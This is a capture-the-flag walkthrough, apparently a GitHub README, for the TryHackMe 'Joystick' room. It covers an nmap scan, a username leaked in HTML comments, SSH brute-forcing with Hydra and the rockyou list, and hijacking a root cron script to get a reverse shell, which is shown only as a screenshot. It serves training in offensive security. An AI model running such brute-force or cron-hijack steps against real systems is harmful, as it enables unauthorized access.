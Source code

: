 # Joystick
![alt text](https://tryhackme-images.s3.amazonaws.com/room-icons/a1f2af5e550f182a1efc6c7f0f3ff6b4.png)\n
Medium CTF room in [TryHackme](https://tryhackme.com/room/joystick)
# Reconnaissance
  - Nmap Scan
    `nmap -A -T5 -oN nmap.txt -vv <ip>`
    ```bash
    # Nmap 7.80 scan initiated Fri Jun 12 16:58:01 2020 as: nmap -A -T5 -oN nmap.txt -vv 10.10.50.224
    Warning: 10.10.50.224 giving up on port because retransmission cap hit (2).
    Nmap scan report for 10.10.50.224
    Host is up, received conn-refused (0.25s latency).
    Scanned at 2020-06-12 16:58:02 +08 for 90s
    Not shown: 728 closed ports, 269 filtered ports
    Reason: 728 conn-refused and 269 no-responses
    PORT   STATE SERVICE REASON  VERSION
    21/tcp open  ftp     syn-ack vsftpd 3.0.3
    |_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
    22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 c7:ce:5d:fa:24:68:3a:10:63:f9:28:1b:f4:6d:e5:bc (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDviekIGKBudV6eCKiRkvoK3+KbLYFlqNUkOi/nphorAqF22v/wOzvbr9hcn7/S6STJeYDHVpsKl2Ku5COzQs7zbWkv/jH9LX6R0s5pICbohVvCDjeEvdaMks9yU1/5AYj25RPi1SMLq3boEKuJiu1J+i+ADVTcE4PxvPT6rDOvh9TwVYzWuuezz8nrejAhJGvamsaaJzstZQkn+I7cY2TAeRoRJqnOmLffmNQfG2T4hDm7pg8x7nSHIStlGl3i+SZepokyPm4+rW9tKiJ9bPa9CoW7i/uT7gBFJYGNFPK8i5Rh7KIphWE7W8iMZjNE7ujTSUHnWchGyBmFihEuz777
    |   256 6b:7b:f5:12:e0:db:bb:b0:ca:f8:f8:c0:84:bc:27:e6 (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAFywRYgcs+ORO0qsevRGXL7QGqLeUlNAYjDTWs7FG9hQYYA50Znen7XGzSPIY6gt57HUYp2bWD12rKLw4rcnQw=
    |   256 1b:d4:20:23:d0:5b:32:16:ad:c2:a9:cd:99:1c:e6:6e (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOVUvn4lBmcT/u4LxGHkddF39Y3bAnk8CmiVa2DGKFWU
    80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: POST OPTIONS GET HEAD
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: JoyStick Gaming
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
    
    Read data files from: /usr/bin/../share/nmap
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Fri Jun 12 16:59:32 2020 -- 1 IP address (1 host up) scanned in 91.03 seconds

    ```
# Website Enum
We can directly see a hint inside the source code.
- Source code
    ```html
        <!DOCTYPE html>
    <html lang="en" dir="ltr">
      <head>
        <meta charset="utf-8">
        <title>JoyStick Gaming</title>
      </head>
      <body>
        <p>JoyStick gaming minecraft server, open shortly to the public!</p>
        <!-- Zach, I don't care that you named your user steve. You still need to
          finish making the website -->
        <!-- Great, and now the FTP server just doesn't work. Just another great idea after
    	your failed irc chat. Why would we use that when we have in game chat? 
    	Not to mention that I know you still haven't reset your password.  -->
      </body>
    </html> 

    ```

From this we have a potential user "steve"

# User Access
To get user access we can symply brute-force the ssh login with user 'steve' and use rockyou password list
- Brute-Forcing
    Here i am going to use Hydra 
    `hydra -l steve -P /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt <ip> ssh`
    ```bash
    [22][ssh] host: 10.10.50.224   login: steve   password: ********
    ```
    You will find the password of user steve and get user flag easily.

# Privilege Escalation

Actually to get the root.txt in this machine, we don't really need to escalate our privilege. It is because the root.txt is stored in other user's home directory.
yet we are still going to do it for the fun of it.

- Cronjob
on the crontab we can see that /opt/minecraft/backup.sh is executed as root
we can edit the file to return a reverse shell to us.

Sorry for no Screenshot of the crontab, it is just my machine was so slow.

here is the edited backup.sh and the shell we get
![alt text](https://i.imgur.com/ejkruLo.png)

So, thats all, yea thx hhh,,
